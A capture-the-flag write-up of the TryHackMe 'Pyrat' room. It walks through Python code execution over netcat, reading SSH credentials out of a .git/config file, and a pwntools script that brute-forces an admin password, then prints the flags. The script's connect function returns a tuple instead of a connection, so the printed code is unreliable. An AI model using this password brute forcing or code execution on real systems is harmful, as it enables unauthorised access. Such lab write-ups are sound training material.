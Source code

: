 ## Pyrat - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/pyrat)

<i>**Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. 
With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. 
A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. 
The script unveils a password, ultimately granting access to the root.**</i>

**IP: 10.10.23.85**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Python, Enumeration <br>

**Tools Used**: Nmap, pwntools

[pwntools](https://github.com/Gallopsled/pwntools)<br>

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Started with Nmap scan as always.

  ```
  nmap -A -p- 10.10.23.85

  PORT     STATE SERVICE  REASON
  22/tcp   open  ssh      syn-ack ttl 63
  8000/tcp open  http-alt syn-ack ttl 63
  OS details: Linux 4.15  
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  ssh -> Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  http-alt -> Version: SimpleHTTP/0.6 Python/3.11.2, also a server header
  | fingerprint-strings: 
  |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
  |     source code string cannot contain null bytes
  |   FourOhFourRequest, LPDString, SIPOptions: 
  |     invalid syntax (<string>, line 1)
  |   GetRequest: 
  |     name 'GET' is not defined
  |   HTTPOptions, RTSPRequest: 
  |     name 'OPTIONS' is not defined
  |   Help: 
  |_    name 'HELP' is not defined
  ```
  
- OK, then I visited web app and got a message `Try a more basic connection!`. Right... netcat exists.

  ```
  sudo nc 10.10.23.85 8000 -v
  ```
  
- After connecting with netcat, you need to use Python syntax in order to move around.

  ```
  print("Hello") -> Hello
  print(os.listdir('/')) -> lists directories
  ```

---

## ⚙️ Gaining Access

- After exploring for a while, I found an email that mentions Git directory with old `pyrat` code and when I found that directory there were credentials for SSH.

  ```
  print(os.listdir('/opt/dev/.git')) 
  print(open('/opt/dev/.git/config', 'r').read())
  [core]
          repositoryformatversion = 0
          filemode = true
          bare = false
          logallrefupdates = true
  [user]
          name = Jose Mario
          email = josemlwdf@github.com
  
  [credential]
          helper = cache --timeout=3600
  
  [credential "https://github.com"]
          username = think
          password = _TH1NKINGPirate$_
  ```
  
- Awesome, use this credentials `think:_TH1NKINGPirate$_` to login with SSH.

---

## 🧍 User Privilege Escalation

- User flag is pretty straightforward: `996bdb1f619a68361417cabca5454705`

---

## 👑 Root Privilege Escalation

- For root flag, I was trying for a while to escalate from inside but unfortunately couldn't make it work, so I switched to writing scripts since this whole challenge is Python based.
  I wrote 3 different scripts, 1 for endpoint fuzzing, 1 for password fuzzing and 1 for shell access. I will post just 1 script here since you should practice your Python skills! (shell.py script is not needed for this challenge)
  
- When I ran script for endpoint enumeration, I found 3 endpoits: `shell: $`, `admin:`, `Password:`

  ```python3 end_fuzz.py```
  
- Then I moved to password fuzzing which gave me: `admin, password: abc123`

  ```
  python3 pw_fuzz.py

  from pwn import *

  host = "TARGET-IP"
  port = 8000
  password_file = "/full/path/to/rockyou.txt"
  
  #connect to target
  def connect_to_service():
      return (host, port)
  
  #brute forcing 
  def attempt_password(password):
      
      conn = connect_to_service()
      conn.sendline(b"admin") #send 'admin' as username
      conn.recvuntil(b"Password:")
      conn.sendline(password.encode()) #send password from list
  
      response = conn.recvline(timeout=2)
      response = conn.recvline(timeout=2)
  
      if b"Password:" in response:
          print(f"Password {password} failed.")
          conn.close()
          return False
  
      elif b"Welcome" in response or b"Success" in response:  
          print(f"Correct password: {password} ")
          conn.close()
          return True
  
      else:
          print(f"Unexpected response for password {password}. Response: {response}")
          conn.close()
          return False

  #loops through pw list
  def fuzz_passwords():
      with open(password_file, "r", encoding="utf-8") as f:
          for password in f:
              password = password.strip()
              if attempt_password(password):
                  print(f"Found working password: {password}")
                  break
  
  if __name__ == "__main__":
      fuzz_passwords()
  ```

- Alrighty, since I have admin credentials getting root flag is pretty simple now and there's 2 ways to do it, both options will work.

- First option: Connecting with netcat as admin

  ```
  sudo nc 10.10.23.85 8000 -v
  admin
  Password:
  abc123
  
  Welcome Admin!!! Type "shell" to begin
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Second option: create a script in Python that will spawn interactive shell as root

  ```
  python3 shell.py
  Server response after sending 'admin': Password:
  
  Sending password: abc123
  Server response for password 'abc123': Welcome Admin!!! Type "shell" to begin
  
  Sent 'shell' command. Waiting for shell response...
  Shell response: # 
  Enter command to execute:
  
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Here's the [documentation for pwntools](https://docs.pwntools.com/en/stable/), for installing them in Kali use `sudo apt install python3-pwntools`. Practice Practice Practice Practice Practice!

---

## 🏁 Flags

- **User Flag**: `996bdb1f619a68361417cabca5454705`
- **Root Flag**: `ba5ed03e9e74bb98054438480165e221`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `It was a different type of challenge then the ones I am used to, so it was kinda weird but fun!`

- What did I learn?
  `Sharpening my Python skill and practicing pwntools.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
